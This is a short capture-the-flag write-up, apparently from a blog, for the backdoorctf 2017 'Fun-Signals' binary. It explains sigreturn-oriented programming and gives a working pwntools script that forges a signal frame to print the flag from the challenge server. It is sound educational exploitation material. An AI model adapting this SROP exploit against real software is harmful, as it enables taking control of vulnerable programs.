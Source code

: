 ```yaml
---
layout: post
title: backdoorctf 2017 - Fun-Signals Writeup
categories: ctf_backdoorctf17
keywords: "exploitation"
comments: true
authors:
    - andreafioraldi
---
```


This binary has a very small portion of code.

Analize it in IDA:

<img class="img-responsive" src="{{ site-url }}/assets/backdoorctf17/funsignals-1.png">

The first syscall is a read (rax = 0) of 1024 bytes in the stack.

The second is rt_sigreturn.

For a l337 h4xx0r sigreturn means SROP. For me it means [Wikipedia](https://en.wikipedia.org/wiki/Sigreturn-oriented_programming).

I learnt that we can control the program flow like with rop using sigreturn and the associated structure on the stack.

This structure contains the context of the signal handler.

So writing this structure on the stack (with read) we have the complete control of all registers.

A good choice is to prepare the registers for a write to the stdout of the flag.

The syscall gadget under `int 3` is a perfect target for rip.

Wait, how is composed a signal frame? I don't know, but pwnlib does.

```python
from pwn import *

context.arch = "amd64"

frame = SigreturnFrame()
frame.rax = constants.SYS_write
frame.rdi = constants.STDOUT_FILENO
frame.rsi = 0x10000023 #flag string address
frame.rdx = 50 #read size
frame.rsp = 0xABADCAFE
frame.rip = 0x10000015 #syscall gadget

#p = process("./player_bin")
p = remote("163.172.176.29", 9034)
p.send(str(frame))

print p.recvall()
```

